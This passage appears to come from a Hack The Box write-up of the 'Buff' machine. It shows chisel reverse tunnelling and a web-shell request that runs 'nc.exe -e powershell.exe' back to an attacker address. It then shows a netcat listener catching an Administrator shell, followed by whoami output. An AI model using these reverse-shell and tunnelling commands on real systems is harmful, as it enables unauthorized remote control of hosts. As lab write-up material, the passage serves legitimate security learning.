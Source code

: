 ```text
PS C:\Users\shaun\Downloads> ./chi.exe client 10.10.15.82:8099 R:8888:127.0.0.1:8888
./chi.exe client 10.10.15.82:8099 R:8888:127.0.0.1:8888
2020/08/23 23:43:11 client: Connecting to ws://10.10.15.82:8099
2020/08/23 23:43:12 client: Fingerprint 4c:09:ee:d3:88:28:01:8e:ef:aa:e3:36:db:ef:a1:80
2020/08/23 23:43:13 client: Connected (Latency 53.5461ms)
```

[http://10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe -e powershell.exe 10.10.14.220 12346](http://10.10.10.198:8080/upload/kamehameha.php?telepathy=nc.exe%20-e%20powershell.exe%2010.10.14.220%2012346)

Had to manuallly upload both nc.exe and chisel.exe...used burp repeater

```text
┌──(zweilos㉿kali)-[~/htb/buff]
└─$ chisel server -p 8099 --reverse                                        
2020/08/23 18:27:12 server: Reverse tunnelling enabled
2020/08/23 18:27:12 server: Fingerprint 4c:09:ee:d3:88:28:01:8e:ef:aa:e3:36:db:ef:a1:80
2020/08/23 18:27:12 server: Listening on 0.0.0.0:8099...
2020/08/23 18:37:42 server: proxy#1:R:0.0.0.0:8888=>127.0.0.1:8888: Listening
```

R:8000:127.0.0.1:7890

### Getting a shell

```text
┌──(zweilos㉿kali)-[~]
└─$ nc -lvnp 12345                                                                                  1 ⨯
listening on [any] 12345 ...
connect to [10.10.18.82] from (UNKNOWN) [10.10.10.198] 49702
Microsoft Windows [Version 10.0.17134.1610]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>cd c:/users/administrator/desktop
cd c:/users/administrator/desktop

c:\Users\Administrator\Desktop>whoami /all
whoami /all

USER INFORMATION
----------------

User Name          SID                                          
================== =============================================
buff\administrator S-1-5-21-2277156429-3381729605-2640630771-500


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes                                                     
============================================================= ================ ============ ===============================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Mandatory group, Enabled by default, Enabled group, Group owner
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\BATCH                                            Well-known group S-1-5-3      Mandatory group, Enabled by default, Enabled group             
```